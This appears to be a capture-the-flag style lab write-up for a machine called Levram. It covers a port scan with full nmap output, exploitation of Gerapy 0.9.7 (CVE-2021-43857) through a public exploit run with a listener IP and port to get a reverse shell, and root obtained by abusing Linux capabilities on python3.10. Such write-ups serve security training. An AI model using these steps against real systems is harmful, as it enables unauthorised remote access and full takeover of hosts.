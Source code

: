 Running a port scan with `rustcan -a IPADDRESS -- -A -sC -sV > levram.nmap`

```
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt syn-ack WSGIServer/0.2 CPython/3.10.6
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Fri, 10 Nov 2023 10:39:07 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html
|     Content-Length: 9979
|     Vary: Origin
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=utf-8">
|     <title>Page not found at /nice ports,/Trinity.txt.bak</title>
|     <meta name="robots" content="NONE,NOARCHIVE">
|     <style type="text/css">
|     html * { padding:0; margin:0; }
|     body * { padding:10px 20px; }
|     body * * { padding:0; }
|     body { font:small sans-serif; background:#eee; color:#000; }
|     body>div { border-bottom:1px solid #ddd; }
|     font-weight:normal; margin-bottom:.4em; }
|     span { font-size:60%; color:#666; font-weight:normal; }
|     table { border:none; border-collapse: collapse; width:100%; }
|     vertical-align:top; padding:2px 3px; }
|     width:12em; text-align:right; color:#6
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Fri, 10 Nov 2023 10:39:02 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept, Origin
|     Allow: GET, OPTIONS
|     Content-Length: 2530
|_    <!DOCTYPE html><html lang=en><head><meta charset=utf-8><meta http-equiv=X-UA-Compatible content="IE=edge"><meta name=viewport content="width=device-width,initial-scale=1"><link rel=icon href=/favicon.ico><title>Gerapy</title><link href=/static/css/chunk-10b2edc2.79f68610.css rel=prefetch><link href=/static/css/chunk-12e7e66d.8f856d8c.css rel=prefetch><link href=/static/css/chunk-39423506.2eb0fec8.css rel=prefetch><link href=/static/css/chunk-3a6102b3.0fe5e5eb.css rel=prefetch><link href=/static/css/chunk-4a7237a2.19df386b.css rel=prefetch><link href=/static/css/chunk-531d1845.b0b0d9e4.css rel=prefetch><link href=/static/css/chunk-582dc9b0.d60b5161.css rel=prefetch><link href=/static/css/chun
|_http-cors: GET POST PUT DELETE OPTIONS PATCH
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=11/10%Time=654E0847%P=x86_64-alpine-linux-mus
SF:l%r(GetRequest,AAA,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2010\x20No
SF:v\x202023\x2010:39:02\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3
SF:\.10\.6\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nVary:\x20Acc
SF:ept,\x20Origin\r\nAllow:\x20GET,\x20OPTIONS\r\nContent-Length:\x202530\
SF:r\n\r\n<!DOCTYPE\x20html><html\x20lang=en><head><meta\x20charset=utf-8>
SF:<meta\x20http-equiv=X-UA-Compatible\x20content=\"IE=edge\"><meta\x20nam
SF:e=viewport\x20content=\"width=device-width,initial-scale=1\"><link\x20r
SF:el=icon\x20href=/favicon\.ico><title>Gerapy</title><link\x20href=/stati
SF:c/css/chunk-10b2edc2\.79f68610\.css\x20rel=prefetch><link\x20href=/stat
SF:ic/css/chunk-12e7e66d\.8f856d8c\.css\x20rel=prefetch><link\x20href=/sta
SF:tic/css/chunk-39423506\.2eb0fec8\.css\x20rel=prefetch><link\x20href=/st
SF:atic/css/chunk-3a6102b3\.0fe5e5eb\.css\x20rel=prefetch><link\x20href=/s
SF:tatic/css/chunk-4a7237a2\.19df386b\.css\x20rel=prefetch><link\x20href=/
SF:static/css/chunk-531d1845\.b0b0d9e4\.css\x20rel=prefetch><link\x20href=
SF:/static/css/chunk-582dc9b0\.d60b5161\.css\x20rel=prefetch><link\x20href
SF:=/static/css/chun")%r(FourOhFourRequest,279E,"HTTP/1\.1\x20404\x20Not\x
SF:20Found\r\nDate:\x20Fri,\x2010\x20Nov\x202023\x2010:39:07\x20GMT\r\nSer
SF:ver:\x20WSGIServer/0\.2\x20CPython/3\.10\.6\r\nContent-Type:\x20text/ht
SF:ml\r\nContent-Length:\x209979\r\nVary:\x20Origin\r\n\r\n<!DOCTYPE\x20ht
SF:ml>\n<html\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20http-equiv=\"conte
SF:nt-type\"\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20<title>P
SF:age\x20not\x20found\x20at\x20/nice\x20ports,/Trinity\.txt\.bak</title>\
SF:n\x20\x20<meta\x20name=\"robots\"\x20content=\"NONE,NOARCHIVE\">\n\x20\
SF:x20<style\x20type=\"text/css\">\n\x20\x20\x20\x20html\x20\*\x20{\x20pad
SF:ding:0;\x20margin:0;\x20}\n\x20\x20\x20\x20body\x20\*\x20{\x20padding:1
SF:0px\x2020px;\x20}\n\x20\x20\x20\x20body\x20\*\x20\*\x20{\x20padding:0;\
SF:x20}\n\x20\x20\x20\x20body\x20{\x20font:small\x20sans-serif;\x20backgro
SF:und:#eee;\x20color:#000;\x20}\n\x20\x20\x20\x20body>div\x20{\x20border-
SF:bottom:1px\x20solid\x20#ddd;\x20}\n\x20\x20\x20\x20h1\x20{\x20font-weig
SF:ht:normal;\x20margin-bottom:\.4em;\x20}\n\x20\x20\x20\x20h1\x20span\x20
SF:{\x20font-size:60%;\x20color:#666;\x20font-weight:normal;\x20}\n\x20\x2
SF:0\x20\x20table\x20{\x20border:none;\x20border-collapse:\x20collapse;\x2
SF:0width:100%;\x20}\n\x20\x20\x20\x20td,\x20th\x20{\x20vertical-align:top
SF:;\x20padding:2px\x203px;\x20}\n\x20\x20\x20\x20th\x20{\x20width:12em;\x
SF:20text-align:right;\x20color:#6");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.00 seconds


```

On port 8000 shows a webpage running on `WSGIServer 0.2`.

![[Pasted image 20231110184502.png]]


Trying some credentials such as admin:admin
![[Pasted image 20231110184617.png]]

Brought us to the login page. At the bottom, we see a `Gerapy v.0.9.7`, which will be taken note of.
![[Pasted image 20231110184653.png]]
Googling the Graphy v0.9.7, there's an exploit on both github and exploitdb.
https://github.com/LongWayHomie/CVE-2021-43857
https://www.exploit-db.com/exploits/50640

At first, running the exploit keeps giving an index out of range error.
![[Pasted image 20231110205858.png]]

Reading the README on github,
![[Pasted image 20231110210029.png]]

The exploit will fail if there are no projects, hence, create a random project called test.
![[Pasted image 20231110210100.png]]

Then run the exploit again
 `python3 CVE.py -t 192.168.196.24 -p 8000 -L 192.168.45.157 -P 443`


![[Pasted image 20231110210117.png]]

Then we get a shell on our listening port on 443.
![[Pasted image 20231110210202.png]]

# Privilege Escalation

Running Linpeas to enumerate
We see capabilities set on python3.10
![[Pasted image 20231111012423.png]]

This can also be viewed with the command:
`/usr/sbin/getcap -r / 2>/dev/null`

Now, create a script with the following and transfer it to the target:
![[Pasted image 20231111012610.png]]
setting the  setuid to 0

Running the exploit with :
python3.10 exploit.py

And we achieve root
![[Pasted image 20231111012657.png]]

